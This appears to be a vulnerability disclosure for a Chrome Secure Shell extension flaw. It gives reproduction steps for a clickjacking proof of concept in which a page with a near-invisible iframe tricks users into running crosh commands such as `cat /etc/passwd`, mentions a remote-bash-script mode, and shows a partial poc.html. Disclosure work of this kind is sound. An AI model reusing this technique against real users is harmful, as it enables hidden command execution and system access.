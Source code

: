 There is some user interaction required, but this could be made inconspicuous to the user by making it a part of a game, for example.

Steps to reproduce:

1. Make sure the Secure Shell extension [^0-3] is installed
2. Open poc.html
3. Follow the instructions in the page (Ctrl+Shift+V, Enter, Ctrl+Shift+V, Enter) \*
4. Notice that `cat /etc/passwd` (or an arbitrary Linux command) has been executed

\* alternatively, you can right-click instead of Ctrl+Shift+V (`poc-rightclick.html`)

If the developer mode is enabled, the `shell` command runs and gives access to the system shell.
In the regular user mode, the Crosh shell allows executing any of the predefined commands, which could possibly be exploited to gain access to the system shell.

Note: the PoC works best with dev mode enabled. In regular mode, the shell command will fail, but the issue will still be demonstrated.

Another potential attack vector would be to connect to devices in the local network that often have default credentials, for example: `html/nassh.html#root@192.168.1.1`

[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>

[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>

poc.html:

```html
<!doctype html>
<html>
  <head>
    <style>
      html,
      body {
        font-family: sans-serif;
        overflow: hidden;
      }
      #croshFrame {
        position: absolute;
        top: 0;
        left: 0;
        width: 100vw;
        height: 100vh;
        opacity: 0.000000001;
        pointer-events: none;
      }
      #croshFrame.show {
        opacity: 0.5;
      }
      #croshFrame.enablePointerEvents {
        pointer-events: auto;
      }
      #instructions {
        font-size: 2em;
        font-weight: bold;
        text-align: center;
      }
      #inputElem {
        opacity: 0.000000001;
      }
    </style>
  </head>
  <body>
    <h1>PoC: crosh UI redress - Keyboard-only with polyglot</h1>
    <p>
      (Frame will autoshow sometime around the last step. Use ?show to show
      iframe on page load. Use ?danger to run remote bash script.)
    </p>
    <p id="instructions">Press any key to start</p>
```

[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>